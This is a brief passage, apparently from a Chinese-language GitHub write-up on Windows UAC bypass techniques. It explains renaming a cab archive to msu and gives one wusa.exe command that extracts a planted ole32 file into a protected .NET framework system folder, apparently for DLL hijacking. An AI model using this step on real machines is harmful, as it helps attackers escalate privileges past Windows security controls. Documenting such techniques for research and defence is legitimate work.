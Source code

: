   - 然后我们将`cab`直接改名为`msu`之后调用`wusa.exe`，那么怎么用呢？![image-20210312161943875](https://github.com/XforsecW12Lab/UACBypassSet/blob/main/Images/image-20210312161943875.png)
	
	- 那显然是这样：
		```
		wusa ole32.msu /extract:%windir%\Microsoft.NET\Framework\v2.0.50727
		```
		